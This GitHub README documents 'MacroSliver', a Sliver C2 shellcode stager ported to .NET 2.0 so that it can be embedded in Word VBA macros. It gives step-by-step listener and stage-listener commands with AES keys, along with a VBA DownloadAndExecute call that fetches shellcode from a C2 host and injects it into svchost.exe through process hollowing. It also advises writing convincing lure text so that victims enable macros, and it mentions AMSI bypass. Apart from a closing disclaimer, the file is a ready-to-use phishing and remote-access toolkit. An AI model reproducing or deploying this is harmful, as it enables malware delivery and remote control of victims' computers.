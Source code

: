```
   _____                              _________.__  .__                    
  /     \ _____    ___________  ____ /   _____/|  | |__|__  __ ___________ 
 /  \ /  \\__  \ _/ ___\_  __ \/  _ \\_____  \ |  | |  \  \/ // __ \_  __ \
/    Y    \/ __ \\  \___|  | \(  <_> )        \|  |_|  |\   /\  ___/|  | \/
\____|__  (____  /\___  >__|   \____/_______  /|____/__| \_/  \___  >__|   
        \/     \/     \/                    \/                    \/       
                                    Macro Fishing with Sliver C2
```

Backport of [SliverLoader](https://github.com/Cyb3rDudu/SliverLoader) DLL, wellknown through [Ycf-Kel](https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8) Powershell Stager for Sliver Shellcode,
from .net4 Framework to .net2 to make it usable as assembly in vba scripts generated by [DotNetToJScript](https://github.com/tyranid/DotNetToJScript).

If you want to generate VBA scripts with DotNetToJScript, the assembly must be built with .NET Framework version 2.0 to reference class methods through Visual Basic. The assembly from the stager built by [Ycf-Kel](https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8) was written for .NET Framework v4.7 and thus could not be used as a drop-in assembly. This is because Office pre-loads a core DLL into memory before the script runs, which forces the loaded Common Language Runtime (CLR) to always be version 2.0 to access methods from invoked assemblies.

A workaround for this issue is to use the ActCtx object with a custom manifest to load version 4.0 classes into VBA, even though its CLR is set to version 2.0. However, I decided against this approach and instead backported the code to .NET Framework 2.0.

## Features

The stager retains the same features as the original:

- Raw Shellcode
- Compression for the second stage using deflate9 or gzip
- AES Encryption
- TLS through Self-Signed SSL
- Process Hollowing
- Reflection to avoid disk artifacts
- No hardcoded parameters
- Compatible with both 32-bit and 64-bit Office
- Serializable with DotNetToJScript

## Usage

### Setup Sliver C2
Follow the installation guide on the (wiki page)[https://sliver.sh/docs?name=Linux+Install+Script] to install Sliver C2

When the setup is complete, a profile is created first, followed by the initiation of a listener with a self-signed certificate to encrypt the transport. Finally, a stage listener is instantiated. The choice of how to create the certificate is yours; you just need a .key and a .crt file to pass to the listener. You can generate these files using Metasploit's “auxiliary/gather/impersonate_ssl” module on "random.com" for more obfuscation, or you can create a self-signed certificate.

- Setup the profile
```bash
profiles new -b  https://192.168.X.X:443 --format shellcode --arch x86 lab
# --arch either x86 or amd64 depending on the office version (most probably x86).
# lab is the name of the profile. you can use any name you want.
# -b for specifying HTTPS as the protocol.
```
- To start the listener, you need to specify the same port, IP address, and protocol that were used when creating the profile. Use the SSL certificate and key generated earlier by passing the `.crt` and `.key` files
```bash
https -L 192.168.X.X -l 443 -c /tmp/crt.crt -k /tmp/key.key
```
- Finally, use the stage-listener command to launch the staging server. Specify port 8080 with the HTTPS protocol. Use the same SSL certificate and key as for the listener. Additionally, specify the compression algorithm and the AES encryption keys as follows.
```bash
stage-listener --url https://192.168.X.X:8080 --profile lab -c /tmp/crt.crt -k /tmp/key.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV 
# -C deflate9, gzip or no compression is supported.
# --profile must match the created profile name.
# --aes-encrypt-key The key used for the encription.
# --aes-encrypt-iv The injection vector.
```
This will result in two jobs running on ports `443` and `8080`, both with TLS enabled.

### Macro Usage
The file `macrosliver.vba` contains the VBA code that is directly usable in Word. Create a `.docm` file with convincing text to prompt the victim to enable macro execution, ensuring that the `Run()` function is triggered, for example, by calling it in the `Auto_Open()` trigger or a similar method, to catch the session with the instantiated listener. When the VBA function is executed, it deserializes the embedded stager DLL and invokes it. After that, the functions of the loader class can be called using the object `o`.
```VBA
    Set o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class)
    o.DownloadAndExecute "https://192.168.X.X:8080/hello.woff", "svchost.exe", "deflate9", "D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT", "8y/B?E(G+KbPeShV"
```
The arguments to pass are:
1. The stage listener URL where the shellcode is hosted.
2. The binary into which the process should be injected.
3. The compression algorithm: either `deflate9`, `gzip`, or an empty string if no compression was chosen when the listener was created.
4. The AES key.
5. The AES initialization vector.

## Build the assembly

The assembly can also be built by yourself if additional functionality is needed or if further obfuscation and AMSI bypass are required. To do this, open the solution file and build the integrated MacroSliver Project. It has to be built for the Any CPU configuration and does not need to be specified for a particular architecture. This allows the stage listener to provide the correct architecture for the target Office version.

The changes to the original stager include the handling of decompression in .NET v2 compared to .NET v4 and the AES decryption class. Additionally, VBA passes all parameters as strings rather than byte arrays, as in the original stager. So the aes key and iv are passed as strings.

After the assembly has been built, it can be used to create a VBA, HTA, or JScript script with DotNetToJScript.

## Create the Script
To generate the VBA script using DotNetToJScript, follow these steps:

1. Build DotNetToJScript: Clone and build the DotNetToJScript project from (GitHub)[https://github.com/tyranid/DotNetToJScript].
2. Prepare the necessary files: Copy the DotNetToJScript.exe, NDesk.Options.dll (created during the build process), and MacroSliver.dll into the same folder.
3. Execute the command: Run the following command to generate the VBA script.

Here are the detailed steps:

### Step 1: Build DotNetToJScript
1. Clone the DotNetToJScript repository:
```bash
git clone https://github.com/tyranid/DotNetToJScript.git
```
2. Navigate to the DotNetToJScript directory and build the project:
```bash
cd DotNetToJScript
msbuild /p:Configuration=Release
```
### Step 2: Prepare the Files
1. Copy `DotNetToJScript.exe` and `NDesk.Options.dll` from the build output directory (usually `bin\Release`) to a new folder.
2. Copy your `MacroSliver.dll` to the same folder.
### Step 3: Execute the Command
1. Open a command prompt in the folder containing `DotNetToJScript.exe`, `NDesk.Options.dll`, and `MacroSliver.dll`.
2. Run the following command to generate the VBA script:
```
.\DotNetToJScript.exe .\MacroSliver.dll --lang=vba --ver=v2 -c=Loader -o macrosliver.vba
```
This command will create a `macrosliver.vba` file that contains the VBA script generated from the `MacroSliver.dll`.
Finally add the call of `DownloadAndExecute` to trigger the stager instantiation.
```VBA
    o.DownloadAndExecute "https://192.168.X.X:8080/hello.woff", "svchost.exe", "deflate9", "D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT", "8y/B?E(G+KbPeShV"
```

## Disclaimer
**WARNING: This repository contains malware and potentially harmful code. It is intended for educational purposes only.**

### Important Information
**Purpose:** The contents of this repository are provided for research and educational purposes only. The goal is to help security professionals, researchers, and students understand malware, its behavior, and methods to detect and mitigate it.

**Legal Use:** You are strictly prohibited from using any code or information from this repository for malicious purposes or illegal activities. Unauthorized use of this material to cause harm, breach security, or compromise systems is against the law and strictly forbidden.

**Responsibility:** The authors and contributors of this repository do not take any responsibility for any damage or harm caused by the use or misuse of the content provided herein. Users are fully responsible for their actions and must comply with all applicable laws and regulations.

**Safe Environment:** Always use a controlled, isolated, and safe environment, such as a virtual machine or sandbox, when testing or experimenting with the code in this repository. Ensure that your testing environment is disconnected from any networks to prevent unintended spread or damage.

**Ethical Use:** This repository aims to promote ethical hacking, cybersecurity awareness, and the development of effective defenses against malware. By using this repository, you agree to adhere to ethical guidelines and use the content responsibly.

### Acknowledgment
By accessing, cloning, or using any part of this repository, you acknowledge that you have read, understood, and agree to this disclaimer. You also acknowledge that you will use the information responsibly and ethically.

**If you do not agree with the terms outlined above, do not access or use the contents of this repository.**

